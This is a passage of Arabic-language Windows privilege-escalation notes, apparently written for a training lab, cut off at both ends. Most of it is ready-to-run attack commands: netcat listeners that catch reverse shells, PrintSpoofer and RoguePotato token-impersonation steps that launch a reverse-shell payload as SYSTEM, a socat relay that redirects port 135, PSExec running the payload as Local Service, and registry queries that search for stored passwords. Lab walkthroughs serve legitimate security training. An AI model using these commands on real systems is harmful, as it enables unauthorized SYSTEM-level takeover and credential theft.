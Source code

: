 3- بدء Listener آخر على Kali
لتلقي الاتصال العكسي من shell الذي حصلنا عليه عبر **Local Service**، نبدأ مستمع آخر على **Kali**:
```
nc -lvnp 5555
```
4-استخدام PrintSpoofer لرفع الصلاحيات إلى SYSTEM
```
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```
- **-c**: يشير إلى مسار **reverse.exe** الذي سيتم تشغيله.
- **-i**: يحدد أن يتم تنفيذ الأمر باستخدام **NT AUTHORITY\SYSTEM**.



# Token Impersonation - Rogue Potato

إعداد **socat** على Kali لتمرير الاتصال من المنفذ 135 على Kali إلى المنفذ 9999 على الجهاز المستهدف:

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
```

بدء مستمع على Kali:

```
nc -lvnp 9999
```

تسجيل الدخول عبر **RDP** كمسؤول، ثم تشغيل **PSExec64.exe** لتشغيل **reverse.exe** باستخدام حساب **Local Service**:

```

C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

```
تشغيل **RoguePotato** في **local service shell** للحصول على reverse shell مع صلاحيات **SYSTEM**:

```
C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```
----------------------------------
# Passwords - Registry


البحث عن كلمة مرور في الريجستري:

```

reg query HKLM /f password /t REG_SZ /s 


reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

```
استخدام **winexe** لتشغيل موجه الأوامر مع صلاحيات المسؤول:
